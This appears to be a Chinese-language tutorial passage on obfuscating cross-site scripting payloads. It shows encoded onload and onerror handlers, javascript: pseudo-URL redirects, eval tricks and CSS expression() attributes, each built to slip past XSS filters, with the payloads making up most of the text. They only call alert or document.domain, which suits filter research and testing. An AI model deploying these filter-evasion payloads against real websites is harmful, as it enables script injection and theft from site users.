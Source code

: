 下面讨论一下事件即onload、onerror等事件之后的混淆方法：

```
<body onload="al&#000101rt&#8233
/*&#00*/(document. dom&#x5cu0061in)//">

```

采用了entity编码，最后一处是先使用javascript的unicode编码，然后再entity编码。

由于是直接处理DOM的方法和对象，与直接在script标签内处理字符串的环境还是不同，但是我们可以加注释或者换行符。

```
<body onload="al&#000101rt&#8233
//&#x0d/*&#00*/(document. dom&#x5cu0061in)//">

```

当使用location重定向到javascript:伪协议url的时候，又可以多做一重编码了：

```
<body/:a/onload="location='j&#97vAscript:'
+&#x28[&#x5d+
'\141\l\u0065rt\r\(/*&#x2a/docum%65nt.dom\x&#x0032;561in)'
)">

```

事件同时又可以直接调用其他属性：

```
<img src="x" onload="alert(1)" onerror="this.onload()">
<img/src="*/(1)"title="alert/*"onerror="eval(title+src)">

```

style属性的混淆，一个没有任何混淆的简单例子：

```
<input type="text" value="" style=display:block;position:absolute;top:0;left:0;width:999em; height:999em onmouseover=alert(1) a="" name="foo" />

```

利用之前总结的在属性里的混淆方法：

```
<l1!/style="-:\65 \x/**/\p\r\0&#x30;0065 /**/ssio\n(write /**&#x2f(dom\u0061in))"> 

```

在expression中，我们可以直接访问document中的write方法和domain属性，这表明我们当前位于document的DOM范围内。

```
<l1!/style="-:\65 \x/**/\p\r\0&#x30;0065 /**/ssio\n(location='j&#97vAscript:'+&#x28[&#x5d+'document.write\r\(/*&#x2a/1)'))"> 

```

转到javascript的URL时，已不在document当中，访问write方法时需要使用document.write。
